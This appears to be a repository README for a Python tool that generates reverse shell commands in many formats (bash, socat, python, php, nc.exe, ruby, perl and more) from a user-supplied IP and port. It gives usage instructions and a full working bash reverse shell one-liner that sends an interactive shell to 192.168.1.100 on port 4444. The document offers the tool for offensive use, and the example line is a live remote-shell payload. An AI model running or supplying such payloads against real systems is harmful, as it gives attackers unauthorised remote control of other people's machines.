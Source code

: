 **Reverse Shell Script Generator**

This Python script generates reverse shell commands in various formats based on user input. The user specifies the desired type of reverse shell (e.g., bash, python, php, etc.), and the script generates the corresponding reverse shell command using the provided IP and port.

**Features:**

Supports multiple types of reverse shell commands: bash, socat, java, python, php, nc.exe, ruby, and perl.

Generates reverse shell commands with the correct format for each type.

Takes user input for the target IP address and port, and generates a custom reverse shell command.

**Requirements:**

Python 3.x

No external libraries are required.

**Usage:**

python script.py shell <host_ip> <host_port>

shell - Type of script you need

<host_ip> - your machine ip address

<host_port> - port to listen on

**Example:**

python3 script.py bash 192.168.1.100 4444

output:

/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1

**Other shell types that can be generated include:**

bash, socat, java, python, php, nc.exe, ruby, perl, go, lua, rust, haskell, d, swift, zsh, docker, vim, android, c, bash_timeout, openssl, tcl, c#.
